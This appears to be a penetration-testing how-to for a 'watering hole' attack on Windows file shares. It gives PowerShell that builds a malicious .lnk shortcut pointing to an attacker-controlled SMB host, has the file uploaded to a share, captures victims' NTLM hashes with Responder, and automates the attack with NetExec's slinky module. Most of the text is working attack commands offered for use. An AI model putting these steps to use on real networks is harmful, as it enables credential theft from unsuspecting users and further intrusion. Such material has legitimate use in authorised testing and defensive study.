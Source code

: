 # Watering Hole Attack with Malicious Files in Shared Folders

## Overview

Placing a malicious file in a shared folder can result in significant exploitation opportunities. This technique is akin to a Watering Hole attack, where unsuspecting users access the malicious file.

This attack works particularly well when combined with tools like Responder, which can capture hashes when users interact with the malicious file.
## Steps

### 1. Create a Malicious File Using PowerShell

If you have access to a shared folder, you can use PowerShell to create a malicious file that unsuspecting users might click on. The PowerShell commands below will generate a shortcut (.lnk) file.

```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.163.15\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

**Note:** The `TargetPath` should point to the IP of your Kali machine.

You can also add special characters to the filename to ensure it appears at the top of the shared folder.

### 2. Upload Malicious File to the Share

Once the malicious file is generated, it can be uploaded to any accessible file share within the environment, provided the attacker has sufficient privileges.

![Pasted image 20250224171214](https://github.com/user-attachments/assets/73b353f0-4870-4eb8-ab08-8d4e5f27639b)


### 3. Run Responder to Capture Hashes

On your Kali machine, run Responder using the following command to listen for hashes.

```bash
sudo responder -I eth0 -dP
```

When a user clicks on the malicious file from their workstation, Responder will capture the hash.

![Pasted image 20250224171724](https://github.com/user-attachments/assets/5cab3693-0cc3-4354-9a50-bf6e8688d911)


### 4. Automate the Attack with NetExec

To automate the attack, you can use NetExec. This will automate the SMB relay attack to capture the user's credentials.

```bash
netexec smb <targethost ip> -d <domain> -u <user> -p <password> -M slinky -o NAME=test SERVER=<kali>
```
